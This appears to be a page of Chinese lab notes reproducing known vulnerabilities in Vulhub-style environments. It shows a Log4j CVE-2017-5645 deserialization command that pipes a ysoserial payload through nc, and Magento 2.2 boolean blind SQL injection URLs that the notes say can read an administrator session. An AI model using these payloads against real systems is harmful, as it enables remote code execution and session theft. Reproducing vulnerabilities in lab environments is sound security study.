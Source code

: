 ```
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```



#**[ Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）](https://vulhub.org/#/environments/log4j/CVE-2017-5645/)**


 ## **漏洞复现**

我们使用`ysoserial`生成payload，然后直接发送给your-ip:4712端口即可。

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```
然后执行docker-compose exec log4j bash进入容器，可见 /tmp/success 已成功创


# Magento 2.2 SQL注入漏洞



## [漏洞复现](https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html)

分别访问如下链接：

```
http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
```
```
http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-
```

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -和))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同


通过改变OR的条件，即可实现SQL BOOL型盲注。

利用这个POC，可以读取管理员的session
